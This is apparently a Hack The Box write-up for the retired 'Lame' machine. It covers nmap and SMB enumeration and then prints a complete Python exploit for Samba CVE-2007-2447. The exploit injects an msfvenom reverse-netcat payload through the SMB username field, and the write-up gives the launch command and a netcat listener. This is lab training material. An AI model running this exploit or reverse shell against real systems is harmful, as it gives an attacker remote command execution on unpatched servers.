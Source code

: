 ```yaml
---
layout: single
title: Lame - Hack The Box
excerpt: "Lame is an easy Linux machine, requiring only one exploit to obtain root access. It was the first machine published on Hack The Box and was often the first machine for new users prior to its retirement."
date: 2025-05-26
classes: wide
header:
  teaser: /img2/lame.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Easy
tags:
  - Samba 3.0.20 < 3.0.25rc3 - Username Map Script [Command Execution]
---
```



## Reconnaissance

- Nmap

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.10.10.3
```

![](/img2/Pasted%20image%2020250526213420.png)

- Vulnerability and version scan

```bash
nmap -sCV -p21,22,139,445,3632 -vvv 10.10.10.3
```

![[Pasted image 20250526213902.png]]

- SMB enumeration

```bash
smbmap -H 10.10.10.3
```

![](/img2/Pasted%20image%2020250526215557.png)



## Exploitation

- Samba smbd 3.0.20-Debian (CVE-2007-2447)

https://github.com/n3rdh4x0r/CVE-2007-2447

```python
#!/usr/bin/python3
#exploit Samba smbd 3.0.20-Debian
from smb import *
from smb.SMBConnection import *
from subprocess import getoutput
import argparse


def generate_payload(lh, lp):
	payload = getoutput(f"msfvenom -p cmd/unix/reverse_netcat LHOST={lh} LPORT={lp} -f python 2>/dev/null | tail -n +1")
	#print(type(lh), type(lp))
	final_cmd = (payload)
	#print(final_cmd)
	"""
	in case of a print statement
	def get_payload():
	    tmp = sys.stdout
	    sys.stdout = StringIO()
	    exec(msfvenom() + "\nprint(buf)")
	    buf = sys.stdout.getvalue()
	    # restore stdout
	    sys.stdout = tmp
	    return buf
	    thanks to @Tony_Bamanaboni#0789 on discord
	"""

	l = {}
	exec(final_cmd, {}, l)
	return l["buf"] 
	


def main():
	parser = argparse.ArgumentParser(description = "Exploit Samba smbd 3.0.20-Debian CVE-2007-2447")
	parser.add_argument("-lh", type=str, help="LHOST -> attacker", required=True)
	parser.add_argument("-lp", type=str, help="LPORT -> attacker port", required=True)
	parser.add_argument("-t", type=str, help="target -> target ip", required=True)
	parser.usage = parser.format_help()
	args = parser.parse_args()

	
	#buf = generate_payload("10.10.14.170", 1337)
	buf = generate_payload(args.lh, int(args.lp)).decode()

	#print(f"here take the output biatch: {buf}")
	#exit(-1)
	print("Payload created & now sending it....")

	userID = "/=` nohup " + buf + "`"
	password = "password"
	victim_ip = args.t

	conn = SMBConnection(userID, password, "HELLO", "TEST", use_ntlm_v2=False)
	conn.connect(victim_ip, 445)


if __name__ == '__main__':
	main()
```

```bash
python3 exploit.py -lh 10.10.16.7 -lp 9000 -t 10.10.10.3
```

```bash
nc -nlvp 9000
```

![](/img2/Pasted%20image%2020250526215307.png)


